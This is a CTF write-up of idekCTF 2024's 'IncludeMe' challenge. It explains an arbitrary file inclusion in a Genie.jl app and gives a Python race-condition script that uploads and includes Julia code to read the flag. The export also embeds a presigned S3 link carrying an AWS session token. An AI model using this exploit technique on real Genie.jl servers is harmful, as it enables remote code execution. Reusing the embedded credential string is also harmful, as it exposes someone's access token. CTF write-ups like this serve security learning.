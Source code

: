 ```yaml
---
id: 476adce3-c249-4a2d-ad88-ea823a5c99a1
title: Arbitrary File Inclusion Leading to RCE in Genie.jl - IncludeMe [idekCTF 2024]
created_time: 2024-08-19T00:24:00.000Z
last_edited_time: 2024-09-28T00:27:00.000Z
cover_image: ./imgs/images_CYPDSAFZ
icon_emoji: 🏎️
categories: []
verification:
  state: unverified
  verified_by: null
  date: null
page: Arbitrary File Inclusion Leading to RCE in Genie.jl - IncludeMe [idekCTF 2024]
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/images_CYPDSAFZ

---
```


In idekCTF 2024, I played with the **P1G SEKAI** team and secured 1st place out of 1,068 teams! I solved a challenge named "Included me" and got the first blood on that challenge.

# Challenge Description

another minimalist, frontend-less, challenge because i'm bad at writing server-side challenges

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/709a0b78-7ae2-4171-930b-e98c753c8621/includeme.tar.gz?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB466XESU5RBF%2F20250523%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250523T095959Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEDIaCXVzLXdlc3QtMiJHMEUCIQDapARZ3SqLIrbOOKxHY56AgLqFoH9Pw4Ka90juRy1a4wIgShurE11rj4QS4oAPBydAR%2FvJRP%2By2qevJ3irnjH9rlMqiAQI6%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FARAAGgw2Mzc0MjMxODM4MDUiDIG4TbP8GSAU7h%2FKGircA8nfAd9aGdxnFVI2ajDnUaLPx%2FGwLDaFKORw1o7ta%2Bzcx%2BwSQuDeWMPkoyqo9CULEk65nc4XevB1rIVr%2BASFO4A7xYvmj6iGzVT6qs5Jc8ayehWet%2FR8YXZ3nX%2FZ5y%2FajMTFeArcayK29qlsk9cI%2F0P3Co9l9Aum8UF%2FutrleJoBViK89NwGr38ZyLYZ9T%2FWORKEsWPBB4zGGqwqjT44cTeZdTxmXHAKU2U4i7lBxQ4GPWKTnjDXRjzmOm4Fr0nktIcRs33Q2MwZvDNyDirPDp%2Fg%2F63Xg2uKSPtGEYJCwgSiVmxpMKduPeURqzhkxc3UBc3Sgm5SCNgiUellN0YAXoOFMk1fwGMUnW%2F8WTY4fACNJDCqtpl2dZWMfdL39JlVn0A5oX8%2BAP0ukH%2FMzatrUoHZmgYj%2BVBWYMQtRvdE6xMGlyZsGXwksf%2FE2mlSI9vp6GHY%2FRJms7B%2BeRqrxgFDZAY4n%2BHteVgUlCMLioicLY7po465atOMtbcoRWQhUTD3c7%2BfVVVOIFIwMAWX3OrB3GTITwIGu5Z0fstEkp9%2BeoAPQmZ9sJRU2285uuHCMfaSE7F6vGvBRegzM5O9CD1%2BWPfldIdfSFBP%2FAprH%2BLKnhCFLXm%2FyRKLw7Rc5PtHMLiLwcEGOqUBy5OF2QwG2uwTXFgCz242JDBkrVl8fJULjSRoCc6Can3B9Z8aYbUeiuSrqu74Vqz4dnhU08Y0DrgLiQlITvSMko6TDd8kXDOsWA6pJUb5UnOnit%2FXVumF7DFk4DRFDJx1eF9aCDWUIFdp9yR%2BiB2KWlm574mNgdBiyr3oNOpGvgOAzVkhzWvSajKGVGLsj25%2BvN4jfig2d%2BjFbLLHoFyiSdMKWoA%2B\&X-Amz-Signature=e91cfb38989eba0cb1f8426d61121f32c7ea4863072fe583c8f55a1469a5e1c5\&X-Amz-SignedHeaders=host\&x-id=GetObject)

# How to Solve

The goal of this challenge was to achieve Remote Code Execution (RCE) and capture the flag. The program was vulnerable to arbitrary file inclusion here:

```julia
using Genie, Genie.Requests, Pkg

Pkg.activate(".")

index() = include(params(:page, "example.jl"))

route("/", index)

up(1337, "0.0.0.0", async = false)
```

We could include arbitrary files into the application, altering its flow. I discovered that we could include a test case from this Genie.jl repository:

> [![image](./imgs/b322ed80-bc5a-11e9-807a-9b53749c40ef_ftYlQyUC) **Genie.jl/test/fileuploads/test.jl at 509886d61a75d74bcbd45db1f77230abd4cd11a8 · GenieFramework/Genie.jl**](https://github.com/GenieFramework/Genie.jl/blob/509886d61a75d74bcbd45db1f77230abd4cd11a8/test/fileuploads/test.jl#L14)\
> 🧞The highly productive Julia web framework. Contribute to GenieFramework/Genie.jl development by creating an account on GitHub.\
> <https://github.com/GenieFramework/Genie.jl/blob/509886d61a75d74bcbd45db1f77230abd4cd11a8/test/fileuploads/test.jl#L14>

This test case essentially exposes a file upload vulnerability, allowing us to upload arbitrary files into Genie. However, after including that file, the program’s flow would change, preventing us from doing it a second time… or would it? The solution is yes, we can include it again if we’re fast enough to include `app.jl` right after uploading the file. This requires a race condition. Here's my solution script:

```python
import httpx
import asyncio

URL = "http://localhost:1337"
# URL = "https://includeme-295e03fffda9795f.instancer.idek.team/"

class BaseAPI:
    def __init__(self, url=URL) -> None:
        self.c = httpx.AsyncClient(base_url=url, timeout=100)
    def page(self, page):
        return self.c.get("/", params={"page": page})
    def upload(self, fileupload):
        return self.c.post("/", files={"fileupload": ("x.jl", fileupload)})
class API(BaseAPI):
    ...

async def main():
    api = API()
    ress = []
    res1 = api.page("../home/ctf/.julia/packages/Genie/yQwwj/test/fileuploads/test.jl")
    ress.append(res1)
    for i in range(10):
        res2 = api.upload("""
read(`cat flag.txt`, String)
""")
        for j in range(10):
            res3 = api.page("app.jl")
            ress.append(res3)
        ress.extend([res1, res2])
    ress = await asyncio.gather(*ress)
    for res in ress:
        print(res.text)


if __name__ == "__main__":
    asyncio.run(main())

```

Next, visit <http://localhost:1337/?page=x.jl> to retrieve the flag.

![](./imgs/image_2FRbeU5K.png)
